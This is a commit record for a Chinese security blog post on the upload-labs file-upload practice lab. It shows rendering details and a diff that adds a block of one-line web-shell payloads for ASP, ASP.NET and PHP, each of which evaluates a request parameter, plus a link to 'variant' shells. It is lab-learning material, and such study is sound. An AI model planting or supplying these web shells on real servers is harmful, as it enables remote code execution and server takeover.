

Before and after one commit to yangyang-linux/yangyang-linux.github.io, a Jekyll site: the page built from _posts/2021-03-13-upload-labs.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; grey boxes are pictures that could not be loaded.

Commit message:
Update 2021-03-13-upload-labs.md

````diff
--- a/_posts/2021-03-13-upload-labs.md
+++ b/_posts/2021-03-13-upload-labs.md
@@ -10,4 +10,21 @@ tags:
     - upload-labs
 ---
 
-## 01
+## 前言
+[文件上传](https://yangyang-linux.gitee.io/2021/02/04/dvwa%E4%B9%8B%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/)
+## 各版本的一句话木马
+```bash
+ASP（.asp）:
+<%eval request("cmd")%>
+
+ASP.NET(.ASPX):
+<%@ Page Language="Jscript"%>
+<%eval(Request.Item["cmd"],"unsafe");%>
+
+PHP:
+<?php @eval($_POST['hacker'])?>
+
+变形一句话：https://blog.csdn.net/bylfsj/article/details/101227210
+```
+
+## 限制与绕过
````
